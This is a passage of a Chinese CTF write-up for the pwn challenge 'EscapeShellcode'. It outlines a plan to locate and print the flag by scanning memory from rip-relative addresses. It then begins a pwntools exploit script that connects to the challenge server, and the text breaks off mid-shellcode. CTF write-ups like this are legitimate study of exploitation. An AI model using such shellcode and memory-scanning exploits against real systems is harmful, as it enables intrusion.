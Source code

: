 ![image.png](https://shs3.b.qianxin.com/attack_forum/2022/07/attach-5887ce7accbe87ac53e432c6e148cf65b8f3d5e7.png)

0x01 Pwn
========

1.1 EscapeShellcode
-------------------

和 NahamcomCTF 2022 的 stackless 很像，参考

<https://roderickchan.github.io/2022/04/30/nahamconCTF-pwn/#nahamconCTF-stackless>

修改后完成利用。

### 思路

1. 通过 rip 寻址确定大概的范围
2. 遍历得到可读段（flag大概的位置）
3. 输出 flag

### Exp

```python
#!/usr/bin/env python2
# -*- coding: utf-8 -*
import re
import os
from pwn import *
from LibcSearcher import *

se      = lambda data               :p.send(data) 
sa      = lambda delim,data         :p.sendafter(delim, data)
sl      = lambda data               :p.sendline(data)
sla     = lambda delim,data         :p.sendlineafter(delim, data)
sea     = lambda delim,data         :p.sendafter(delim, data)
rc      = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
uu32    = lambda data               :u32(data.ljust(4, '\0'))
uu64    = lambda data               :u64(data.ljust(8, '\0'))
lg = lambda name,data : p.success(name + ': \033[1;36m 0x%x \033[0m' % data)

def debug(breakpoint=''):
    glibc_dir = '~/Exps/Glibc/glibc-2.27/'
    gdbscript = 'directory %smalloc/\n' % glibc_dir
    gdbscript += 'directory %sstdio-common/\n' % glibc_dir
    gdbscript += 'directory %sstdlib/\n' % glibc_dir
    gdbscript += 'directory %slibio/\n' % glibc_dir
    elf_base = int(os.popen('pmap {}| awk \x27{{print \x241}}\x27'.format(p.pid)).readlines()[1], 16) if elf.pie else 0
    gdbscript += 'b *{:#x}\n'.format(int(breakpoint) + elf_base) if isinstance(breakpoint, int) else breakpoint
    gdb.attach(p, gdbscript)
    time.sleep(1)

elf = ELF('./escape_shellcode')
context(arch = elf.arch, os = 'linux',log_level = 'debug',terminal = ['tmux', 'splitw', '-hp','62'])
# p = process('./escape_shellcode')
# debug(0x1367)
p = remote('39.107.124.203',20890)

shellcode = """
mov edi, 1
lea rsi, [rip-0x300000]
and rsi, 0xfffffffff0000000
mov edx, 0x30
```
